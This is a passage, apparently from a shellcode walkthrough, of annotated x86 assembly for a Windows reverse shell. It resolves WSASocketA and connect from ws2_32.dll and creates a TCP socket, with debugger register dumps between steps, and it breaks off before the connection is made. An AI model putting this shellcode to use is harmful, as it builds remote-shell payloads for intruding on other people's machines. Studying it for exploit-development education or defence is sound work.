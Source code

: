 ```s``` is a descriptor identifying an unconnected socket.<br>
    ; ESI 76740000 OFFSET ws2_32.#332
    ; EDI 00000000
    ; EIP 004010AA reverse_.004010AA

getWSASocketA:
	push 0x61614174                  ; 'aaAt'
	sub word [esp + 0x2], 0x6161          ; sub aa from aaAt
	push 0x656b636f                  ; 'ekco'
	push 0x53415357                  ; 'SASW'
	push esp                         ; pointer to the string
	push esi                         ; socket handler
	call ebp                         ; GetProcAddress(ws2_32.dll, WSASocketA)

    ; EAX 7674B7FC ws2_32.WSASocketA
    ; ECX 76740000 OFFSET ws2_32.#332
    ; EDX 00001725
    ; EBX 76660000 kernel32.76660000
    ; ESP 0022FDCC ASCII "WSASocketA"
    ; EBP 766B1837 kernel32.GetProcAddress
    ; ESI 76740000 OFFSET ws2_32.#332
    ; EDI 00000000
    ; EIP 004010C4 reverse_.004010C4

callWSASocketA:
	xor edx, edx		            ; clear edx
	push edx;		                ; dwFlags=NULL
	push edx;		                ; g=NULL
	push edx;		                ; lpProtocolInfo=NULL
	mov dl, 0x6		                ; protocol=6
	push edx
	sub dl, 0x5      	            ; edx==1
	push edx		                ; type=1
	inc edx			                ; af=2
	push edx
	call eax		                ; call WSASocketA
	push eax		                ; save eax in edx
	pop edi			                ; 

    ; EAX 00000054
    ; ECX 73FB685E
    ; EDX 00000016
    ; EBX 76660000 kernel32.76660000
    ; ESP 0022FDCC ASCII "WSASocketA"
    ; EBP 766B1837 kernel32.GetProcAddress
    ; ESI 76740000 OFFSET ws2_32.#332
    ; EDI 00000054
    ; EIP 004010D6 reverse_.004010D6

getConnect:
	push 0x61746365                 ; atce
	sub word [esp + 0x3], 0x61      ; atce - a = tce
	push 0x6e6e6f63                 ; nnoc
	push esp	                    ; pointer to the string
	push esi	                    ; socket handler
	call ebp                        ; GetProcAddress(ws2_32.dll, connect)

    ; EAX 767448BE ws2_32.connect
    ; ECX 76740000 OFFSET ws2_32.#332
    ; EDX 00001725
    ; EBX 76660000 kernel32.76660000
    ; ESP 0022FDC4 ASCII "connect"
    ; EBP 766B1837 kernel32.GetProcAddress
    ; ESI 76740000 OFFSET ws2_32.#332
```